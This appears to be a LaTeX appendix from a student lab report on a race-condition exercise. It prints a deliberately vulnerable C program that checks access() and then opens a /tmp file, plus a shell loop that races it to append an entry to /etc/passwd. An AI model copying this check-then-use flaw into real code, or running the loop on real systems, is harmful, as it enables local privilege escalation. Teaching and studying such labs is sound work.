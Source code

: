 \documentclass[a4paper,12pt]{article}
\begin{document}
\newpage
 \section{Appendix}
 \subsection{Vulnerable Program: \texttt{vulp.c}}
 \label{Appsec:3.2}
 \begin{verbatim}
#include <stdio.h>
#include <unistd.h>
#include <string.h>
 
int main()
{
    char* fn = "/tmp/XYZ";
    //char buffer[300]; //For /etc/shadow
    char buffer[60]; //For /etc/passwd
    FILE *fp;
    //originaleuid = geteuid(); //For task 3
    
    //seteuid(getuid); //For task 3
    /* Get user input */
    //scanf("%270s", buffer); //For /etc/shadow
    scanf("%50s", buffer); //For /etc/passwd
     
    if(!access(fn, W_OK)){
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    //seteuid(originaleuid); //For task 3
}
 \end{verbatim}
  \subsection{Bash script}
  *The bash script, when created via Terminal usually has permission 664. The permission must be changed to 164, 364 or 764 for it to be executable.
 \begin{verbatim}
#!/bin/sh
 
old=`ls -l /etc/passwd`
new=`ls -l /etc/passwd`
 
while [ "$old" = "$new" ]
do
    new=`ls -l /etc/passwd`
    /tmp/vulp < /tmp/TXTFILE
done
echo "STOP... The passwd file has been changed"
 \end{verbatim}
 \newpage
\end{document}
